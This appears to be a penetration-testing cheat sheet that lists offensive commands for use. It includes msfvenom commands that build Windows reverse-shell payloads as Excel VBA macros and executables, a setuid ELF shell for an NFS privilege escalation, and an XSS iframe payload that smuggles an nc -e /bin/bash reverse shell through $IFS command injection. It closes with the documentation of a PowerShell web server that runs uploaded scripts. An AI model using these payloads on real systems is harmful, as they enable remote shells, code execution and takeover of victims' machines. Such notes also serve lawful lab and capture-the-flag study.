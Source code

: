 ## Useful Packages 
- `set AutoRunScript post/windows/manage/migrate`
- `msfvenom -p windows/shell_reverse_tcp LHOST=172.16.200.10 LPORT=4444 -f vba` - VBA package for Excel Macro 
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe`
- `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
    - `chmod +xs /tmp/nfs/shell/elf`
# File manipulation 
- append file 
- `sudo bash -c
" echo ‘10.11.1.250 sandbox.local’ >> /etc/hosts"`

# XSS

- `<iframe src="http://10.10.14.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.10'$IFS'7777')" height="0" width="0" ></iframe>`

# Kali Resources 

- `/usr/share/windows-resources/binaries/nc.exe`
- `/usr/share/wordlists/` 



# Windows Simple Web Server 


~~~powershell
<#
.Synopsis
Starts powershell webserver
.Description
Starts webserver as powershell process.
Call of the root page (e.g. http://localhost:8080/) returns a powershell execution web form.
Call of /script uploads a powershell script and executes it (as a function).
Call of /log returns the webserver logs, /starttime the start time of the webserver, /time the current time.
/download downloads and /upload uploads a file. /beep generates a sound and /quit or /exit stops the webserver.
Any other call delivers the static content that fits to the path provided. If the static path is a directory,
a file index.htm, index.html, default.htm or default.html in this directory is delivered if present.

You may have to configure a firewall exception to allow access to the chosen port, e.g. with:
	netsh advfirewall firewall add rule name="Powershell Webserver" dir=in action=allow protocol=TCP localport=8080

After stopping the webserver you should remove the rule, e.g.:
	netsh advfirewall firewall delete rule name="Powershell Webserver"
.Parameter BINDING
Binding of the webserver
.Parameter BASEDIR
Base directory for static content (default: current directory)
.Inputs
None
.Outputs
None
.Example
Start-Webserver.ps1
~~~